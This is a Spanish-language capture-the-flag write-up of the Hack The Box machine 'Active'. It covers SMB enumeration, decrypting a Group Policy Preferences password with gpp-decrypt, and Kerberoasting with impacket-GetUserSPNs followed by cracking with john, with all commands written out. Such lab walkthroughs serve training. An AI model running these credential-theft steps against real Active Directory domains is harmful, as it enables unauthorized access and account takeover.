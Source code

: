 ```yaml
---
icon: desktop
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Active

`Active` es una máquina de dificultad fácil a media, que presenta dos técnicas muy frecuentes para obtener privilegios dentro de un entorno de Active Directory.

<figure><img src="../../../.gitbook/assets/Active.png" alt="" width="563"><figcaption></figcaption></figure>

## Reconnaissance

Realizaremos un escaneo sobre los puertos abiertos de la máquina Active.

```bash
nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.100 -oG allPorts
```

<figure><img src="../../../.gitbook/assets/703_vmware_98kd4quoYx.png" alt=""><figcaption></figcaption></figure>

Lanzaremos unos scripts con **Nmap** para intenter ver vulnerabilidades y versiones sobre los puertos abiertos encontrados.

{% code overflow="wrap" %}
```bash
nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49165,49166,49168 10.10.10.100 -oN targeted
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/702_vmware_rDAcKa5W44.png" alt=""><figcaption></figcaption></figure>

Comprobaremos el nombre del domninio a través del siguiente comando

```bash
ldapsearch -x -H ldap://10.10.10.100 -s base | grep defaultNamingContext
```

<figure><img src="../../../.gitbook/assets/704_vmware_aK8WYI4ygG.png" alt=""><figcaption></figcaption></figure>

Añadiremos en nuestro archivo **/etc/hosts** la dirección IP de Active y el dominio

```bash
catnp /etc/hosts | grep active.htb
```

<figure><img src="../../../.gitbook/assets/705_vmware_cDJv3NirhC.png" alt=""><figcaption></figcaption></figure>

## SMB Enumeration

Procederemos a la enumeración de SMB a través de **enum4linux** para ver que encontramos. Vemos que sin usuario podemos acceder a los recursos _IPC$_ y _Replication_.

```bash
enum4linux -a -u "" -p "" 10.10.10.100
```

<figure><img src="../../../.gitbook/assets/707_vmware_05U2IRlQw5.png" alt=""><figcaption></figcaption></figure>

Procederemos a acceder al recurso compartido "Replication" sin usuario, y nos descargaremos todo el contenido del recurso compartido en nuestro equipo local.

```
smbclient //10.10.10.100/Replication -N
```

<figure><img src="../../../.gitbook/assets/710_vmware_c1osikjLMd.png" alt=""><figcaption></figcaption></figure>

## Abusing GPP Passwords

### Decrypting GPP Passwords - gpp-decrypt - impacket-GetGPPPassword

Comprobaremos que tenemos un archivo .xml que pertenece a una política y se trata de la información de un usuario del Active Directory y un campo "cpasswd" que está encriptado utilizando una clave conocida, que es parte de la configuración predeterminada de la Política de Preferencias de Grupo de Windows (GPP).&#x20;

Para desencriptarlo podemos hacer uso de **gpp-decrypt** o **impacket-Get-GPPPassword**.

{% code overflow="wrap" %}
```bash
catnp Groups.xml

impacket-Get-GPPPassword -xmlfile Groups.xml 'LOCAL'

gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/712_vmware_oGnj8eke3T.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

## Flag user.txt

Comprobaremos a través de **netexec** de que podemos acceder con el usuario encontrado y su respectiva credencial. Comprobamos además de que tiene acceso al recurso compartido "Users".

```bash
netexec smb 10.10.10.100 -u SVC_TGS -p 'GPPstillStandingStrong2k18'  --shares
```

<figure><img src="../../../.gitbook/assets/713_vmware_MoOwsWrOmB.png" alt=""><figcaption></figcaption></figure>

Procederemos a conectarnos al SMB con estas nuevas credenciales y nos descargaremos el archivo "user.txt" que es la primera flag.

```bash
smbclient //10.10.10.100/Users -U active.htb/SVC_TGS
```

<figure><img src="../../../.gitbook/assets/715_vmware_cDLsh84FvU.png" alt=""><figcaption></figcaption></figure>

Comprobaremos el contenido de la flag de user.txt

```
catnp user.txt
```

<figure><img src="../../../.gitbook/assets/716_vmware_IgW1eZ4qb3.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Kerberoasting Attack (GetUsersSPNs.py)

"Procederemos a realizar un ataque de Kerberoasting en busca de servicios en el dominio active.htb que estén vinculados a cuentas de usuario. El objetivo es obtener tickets de servicio Kerberos (TGS) asociados a estos servicios, los cuales podrán ser crackeados offline para intentar revelar las contraseñas de las cuentas de servicio."

Obtenemos el hash Krb5 del usuario "Administrator".

{% code overflow="wrap" %}
```bash
impacket-GetUserSPNs -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/718_vmware_xhWpRLa1EQ.png" alt=""><figcaption></figcaption></figure>

Guardaremos el hash en un archivo de texto

```
catnp hash.txt
```

<figure><img src="../../../.gitbook/assets/719_vmware_qk94vfrOpO.png" alt=""><figcaption></figcaption></figure>

Procederemos a realizar ataque de fuerza bruta a través de un diccionario para desencriptar el hash encontrado. Finalmente hemos obtenido la contraseña.

```bash
john --format=krb5tgs hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../../.gitbook/assets/720_vmware_SLuBZGyeFw.png" alt=""><figcaption></figcaption></figure>

Comprobamos que podemos acceder con usuario "Administrator" y encontrar su correspondiente flag de root.txt

```bash
smbclient //10.10.10.100/Users -U active.htb/Administrator
```

<figure><img src="../../../.gitbook/assets/721_vmware_pMqMPFXlgK.png" alt=""><figcaption></figcaption></figure>
